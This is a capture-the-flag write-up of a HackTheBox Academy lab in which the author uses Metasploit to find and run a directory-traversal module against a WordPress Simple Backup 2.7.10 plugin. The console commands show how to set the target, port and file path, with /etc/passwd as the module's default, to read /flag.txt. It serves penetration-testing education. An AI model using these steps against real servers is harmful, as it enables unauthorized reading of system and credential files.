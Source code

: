 ```yaml
---
title: "Public Exploits"
description: Search for plugin exploits
slug: public-exploits
date: 2023-08-02 00:00:00+0000
image: Metasploit.png

categories: 
    - Easy
    - HackTheBox
tags: 
    - HackTheBox
    - Metasploit
    - plugins
---
```


### Introduction
Welcome to yet another writeup where I cover an important tool used by hackers to exploit vulnerabilities on different systems: [Metasploit](https://www.metasploit.com/) In this challenge, part of the "Getting started" series on HackTheBox Academy, we will be delving into the realm of public exploits and uncovering the power of Metasploit.

_Disclaimer: The content presented in this article is for educational purposes only and does not endorse or encourage any form of unauthorized access or malicious activity._

### Public exploits Challenge.
The challenge instructions were simple: "Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file." The main focus of this challenge is to demonstrate the ability to identify vulnerabilities and effectively exploit them. Let's begin our journey by examining the target IP address and visiting the associated webpage.
![chall desc](PublicExploits.jpg)

### Observations & Findings
Upon accessing the webpage, the very first thing that caught our attention was a version number and a brief description of a WordPress service. Drawing from our knowledge of how to find and exploit publicly available vulnerabilities, we swiftly launched the Metasploit console to search for an exploit relevant to this specific version.
![chall blog](PublicExploits0.jpg)

```
──(dr0idbot㉿kali)-[~]
└─$msfconsole
- - - - - SNIP - - - - -

msf6 > search exploit wordpress 2.7.10

Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/wp_simple_backup_file_read                                       

msf6 > 
```
Metasploit came back with results, indicating that there is a publicly available exploit matching the version we found on the website.

Notice the command used to spin up metasploit **msfconsole** after its up and running, we run the command **search exploit wordpress 2.7.10** to see if there are any publicly available exploits for this plugin version. Sure enough, metasploit brings back results and slight description of what we are looking for matching the info on the website we had visited earlier on.

We have an option to see information about that exploit before using it, to see what they payload does. For that we use the command **info** plus the index of the exploit itself.
```
msf6 > info 0

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  DEPTH      6                yes       Traversal Depth (to reach the root fold
                                        er)
  FILEPATH   /etc/passwd      yes       The path to the file to read
  Proxies                     no        A proxy chain of format type:host:port[
                                        ,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.me
                                        tasploit.com/docs/using-metasploit/basi
                                        cs/using-metasploit.html
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connecti
                                        ons
  TARGETURI  /                yes       The base path to the wordpress applicat
                                        ion
  THREADS    1                yes       The number of concurrent threads (max o
                                        ne per host)
  VHOST                       no        HTTP server virtual host

Description:
  This module exploits a directory traversal vulnerability in WordPress Plugin
  "Simple Backup" version 2.7.10, allowing to read arbitrary files with the
  web server privileges.
- - - - - SNIP - - - - -
```
As you can see, a bunch of information is given about this particular exploit with a number options that we need to set in order for the payload to work on our target. Next we use the command **use** plus the index of the exploit we have picked for the exploitation. After selection we set the options that are required by metasploit before executing the payload.

```
msf6 > use 0
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 94.237.49.11
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 41884

```

After obtaining information about the exploit, including the required options, we set the necessary values to ensure the payload will work against our target.
With all the options set, we verified the details and executed the payload on the target.

### Solution/Flag
Upon successful execution of the payload, the Metasploit console provided us with the following output:
```
[+] File saved in: /home/papab3ar/.msf4/loot/20230803014901_default_94.237.49.11_simplebackup.tra_422018.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
Using the command **cat**, we accessed the directory where the file was saved and retrieved the contents of the flag, thus completing the challenge.
![chall blog](PublicExploits1.jpg)

### Conclusion
Metasploit proved to be a powerful tool during this challenge, allowing us to search for and exploit publicly available vulnerabilities effortlessly. It demonstrates the significance of staying vigilant against potential threats and the importance of secure coding practices for developers.

For a deeper understanding of Metasploit and its capabilities, you can refer to its official documentation [here](https://docs.metasploit.com/)

In conclusion, this challenge provided an excellent opportunity to apply web enumeration techniques, uncover hidden information, and identify potential vulnerabilities. As ethical hackers, the quest for knowledge and continuous learning is paramount. Happy hacking, and never stop learning!

dr0idbot out.
